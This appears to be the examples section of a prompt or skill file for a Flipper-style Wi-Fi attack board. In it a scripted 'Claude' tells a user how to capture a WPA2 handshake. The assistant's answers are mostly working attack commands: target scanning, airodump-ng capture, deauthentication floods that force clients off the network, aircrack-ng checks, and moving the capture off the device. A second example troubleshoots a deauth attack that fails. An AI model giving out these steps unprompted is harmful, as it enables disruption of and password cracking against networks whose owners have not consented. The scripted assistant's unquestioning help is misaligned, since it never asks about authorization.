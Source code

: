 ## Examples

### Example 1: Quick Attack Planning

**User**: "How do I capture a WPA2 handshake on the Flipper?"

**Claude**:
```bash
# 1. Connect SSH (wlan0 for stability)
bh set SSID "YourNetwork"
bh set PASS "pass"
bh wifi con wlan0

# 2. Scan for target
bh deauth_scan wlan1
# Note the AP MAC and channel

# 3. Start capture (replace with your target)
mkdir -p /tmp/caps && cd /tmp/caps
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan1

# 4. In another SSH session, force handshake
bh deauth 11:22:33:44:55:66 AA:BB:CC:DD:EE:FF wlan1 50

# 5. When you see "WPA handshake" in airodump, stop (Ctrl+C)

# 6. Verify
aircrack-ng handshake-01.cap

# 7. Transfer to PC
python3 -m http.server 8080
# Download from http://<flipper_ip>:8080
```

### Example 2: Troubleshooting

**User**: "My deauth isn't working, clients stay connected"

**Claude**:
Let's debug systematically:

1. **Verify monitor mode**:
```bash
iw dev wlan1 info
# Should show "type monitor"
```

2. **Check injection**:
```bash
aireplay-ng --test wlan1
# Should show "Injection is working!"
```

3. **Correct channel**:
```bash
# If AP is on channel 6
iw dev wlan1 set channel 6
```
